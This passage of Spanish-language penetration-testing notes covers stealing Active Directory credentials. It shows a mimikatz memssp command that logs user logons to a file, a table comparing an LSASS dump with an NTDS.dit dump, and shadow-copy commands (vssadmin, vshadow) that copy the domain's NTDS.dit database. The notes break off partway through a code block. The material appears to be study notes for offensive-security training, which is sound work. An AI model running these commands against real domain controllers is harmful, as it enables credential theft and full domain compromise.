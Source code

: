 	```powershell
	mimikatz.exe "privilege::debug" "misc::memssp" exit
	```
	Guardando la información de los usuarios que se logueen en:
	```powershell
	type C:\Windows\System32\mimilsa.log
	```


---

## Dumpeando NTDS.dit

Se muestra a continuación una tabla de la información que se puede extraer de NTDS y diferencias y similitudes con el voldado LSASS

| 🎯 **Información**                    | 🔍 **Volcado de LSASS**             | 📂 **NTDS.dit**           |
| ------------------------------------- | ----------------------------------- | ------------------------- |
| **Acceso al DC**                      | ❌ No                                | ✅ Sí                      |
| **Privilegios de administrador**      | ✅ Sí                                | ✅ Sí                      |
| **Tickets Kerberos (TGTs y Service)** | ✅ Sí                                | ❌ No                      |
| **Contraseñas en texto claro**        | ✅ En ciertos escenarios             | ❌ No                      |
| **Tokens de sesión activos**          | ✅ Sí                                | ❌ No                      |
| **Hashes NTLM**                       | ✅ Sí                                | ✅ Sí                      |
| **Hashes Kerberos (KRBTGT)**          | ✅ Sí                                | ✅ Sí                      |
| **Estructura del dominio**            | ❌ No                                | ✅ Sí                      |
| **Historial de contraseñas**          | ❌ No                                | ✅ Sí (si está habilitado) |
| **Relaciones de confianza (Trusts)**  | ❌ No                                | ✅ Sí                      |
| **Credenciales de sesión remota**     | ✅ Sí (RDP u otras sesiones activas) | ❌ No                      |

### Con VSS (Volume Shadow Copy) - Localmente
1. Crear una copia de la unidad C:
   ```
   vssadmin create shadow /For=C:
   ```
2. Copiar el archivo:
   ```
   cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\NTDS\NTDS.dit C:\NTDS\NTDS.dit
   ```

- Propuesta de offsec:
	```powershell
	# Utilizar vshadow con -nw: disable writers y -p: copy on disk
	vshadow.exe -nw -p  C:
	# aparecerá donde se ha creado la copia en:
	# -Shadow copy device name: \\?\GLOBALROOT\..
	# Copiamos la base de datos de AD a C:
	copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\windows\ntds\ntds.dit c:\ntds.dit.bak